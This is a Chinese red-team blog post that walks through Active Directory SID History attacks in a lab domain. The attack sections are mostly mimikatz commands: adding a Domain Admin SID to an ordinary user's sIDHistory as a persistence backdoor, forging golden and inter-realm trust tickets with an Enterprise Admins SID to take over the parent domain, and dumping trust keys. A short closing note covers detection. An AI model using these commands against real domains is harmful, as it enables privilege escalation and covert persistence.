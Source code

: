 ```yaml
---
layout:     post
title:    域渗透-SID History权限维持及域信任攻击
subtitle:  SID History权限维持及域信任攻击
date:       2021-02-17
author:     hmoytx
header-img: img/bg_02.jpg
catalog: true
tags:
    - 域渗透
    - 红队
    - 内网渗透
---
```

# 域渗透-SID History权限维持及域信任攻击

## SID介绍
每个用户帐号都有一个对应的安全标识符（Security Identifiers，SID），SID用于跟踪主体在访问资源时的权限。如果存在两个同样SID的用户，这两个帐户将被鉴别为同一个帐户，原理上如果帐户无限制增加的时候，会产生同样的SID，在通常的情况下SID是唯一的，他由计算机名、当前时间、当前用户态线程的CPU耗费时间的总和三个参数决定以保证它的唯一性。  
为了支持AD牵移，微软设计了SID History属性，SID History允许另一个帐户的访问被有效的克隆到另一个帐户。  
一个完整的SID包括：  
- 用户和组的安全描述  
- 48-bit的ID authority  
- 修订版本  
- 可变的验证值Variable sub-authority values  

例：S-1-5-21-310440588-250036847-580389505-500  
第一项S表示该字符串是SID；第二项是SID的版本号，对于2000来说，这个就是1；然后是标志符的颁发机构（identifier authority），对于2000内的帐户，颁发机构就是NT，值是5。然后表示一系列的子颁发机构，前面几项是标志域的，最后一个标志着域内的帐户和组。    
可以注意到最后一个标志位为500，这个500是相对标识符（Relative Identifer, RID），账户的RID值是固定的。一般克隆用户原理就是篡改其他用户的RID值使系统认为对应用户是管理员。  
常见的RID：500-管理员  519-EA  501-Guest  

## SID History利用前提
1.域间存在信任关系。  
2.开启SID History信任。  

默认情况下新域添加到域树或林根域中，创建的是双向传递信任。  


## 测试环境
10.10.10.10  DC.de1ay.com  
10.10.10.11  subdc.sub.de1ay.com  
10.10.10.201 pc.sub.de1ay.com  


## SID History单一域内利用
SID History工作在单一域内时，域中的普通帐户可以包含SID，若这个SID是一个特权帐户或组，那就可以在不作为域管组成员的情况下授予普通用户域管权限，相当于一个域权限维持后门。  

假定现在有一个普通权限的域成员testc，域为sub.de1ay.com。  
没有操作前是无法访问域控盘符。  
![1](/img/210217_refuse.png)   
通过mimikatz执行命令：  
```
privilege::debug
sid::patch
sid::add /sam:testc /new:domain sid -500  # RID 500 域管理员 
sid::add /sam:testc /new:administrator    #  这样也行
```   
可以看到sIDHitory中多了一条。  
![2](/img/210217_sid.png)   
此时再访问域控。  
![3](/img/210217_success.png)   
最后可以通过`mimikatz "sid::clear /sam:testc" exit`清除。   

## SID History在域树中的利用
对于同一个域树中的父子域来说，如果能获得子域中的高权限用户，就可以将该用户的SID赋予EA权限（519），这样对于父域也是高权限用户。假设我们已经拿下子域sub.de1ay.com的域控权限，即可以利用该方法在父域提权。需要的前提信息：
- 子域的Krbtgt Hash 和 域SID  
- 父域的SID  
对比下黄金票据的条件：  
```
mimikatz "kerberos::golden /domain:<domain> /sid:<SID> /krbtgt:krbtgt ntlm hash /user:<username> /ptt" exit  
```    
只多了一个父域的SID，即sids。  
先在子域的域控权限下获取krbtgt的NTLM hash。  
![4](/img/210217_krbtgt.png)    
然后在子域内的机器（pc.sub.de1ay.com）上运行mimikatz:  
```
mimikatz "kerberos::golden /domain:<domain> /sid:<current SID> /sids:<target domain SID>-519 /krbtgt:krbtgt ntlm hash /user:<username> /ptt" exit  
```
可以发现已经有权限访问父域控相关内容。  
![5](/img/210217_dirdc.png)    


## 域信任攻击父域
还是用的上面的环境。  
查看域信任关系：  
```
nltest /domain_trusts  
```  
![6](/img/210217_domaintrust.png)  

使用mimikatz在域控制器中导出并伪造信任密钥，请求访问目标域中目标服务的TGS票据,创建具有sIDHistory的票据，对目标域进行安全测试。  
在subdc.sub.de1ay.com中使用mimikatz获取需要的信息:  
```
mimikatz.exe privilege::debug "lsadump::trust /patch" exit
```
获取其中的域信任密钥及两个SID（当前域及目标域）。  
![7](/img/210217_rc4.png)  
获取上述信息后，在子域内的机器（pc.sub.de1ay.com）中使用普通用户（sub\testc）权限执行如下命令创建信任票据。  
```
mimikatz "kerberos::golden /domain:<current domain (sub.de1ay.com)> /sid:<current SID> /sids:<target domain SID>-519 /rc4:<rc4_hmac_nt> /user:<username> /service:krbtgt /target:<target domain (de1ay.com)>  /ticket:de1ay.kirbi" exit
```  
![8](/img/210217_kirbi.png)   
然后尝试用rubeus来获取票据，发现失败了。  
![9](/img/210217_rubeus.png)   
最后换回了老工具。  
![10](/img/210217_asktgs.png)   
最后将生成的票据注入进内存，就可以了。  
![11](/img/210217_klist.png)   

## 总结
针对SID History攻击防范还是比较容易的，特征比较明显（sidHistory属性），还有日志中的4765 4766事件。  
针对根域攻击的方式还有委派，这里先鸽着，想起来了再补充


## 参考
[http://t3ngyu.leanote.com/post/7697c6e55644](http://t3ngyu.leanote.com/post/7697c6e55644)    
[https://www.cnblogs.com/mq0036/p/3518542.html](https://www.cnblogs.com/mq0036/p/3518542.html)  
[https://www.cnblogs.com/micr067/p/12984136.html](https://www.cnblogs.com/micr067/p/12984136.html)    
[https://github.com/NotScortator/asktgs_compiled](https://github.com/NotScortator/asktgs_compiled)   


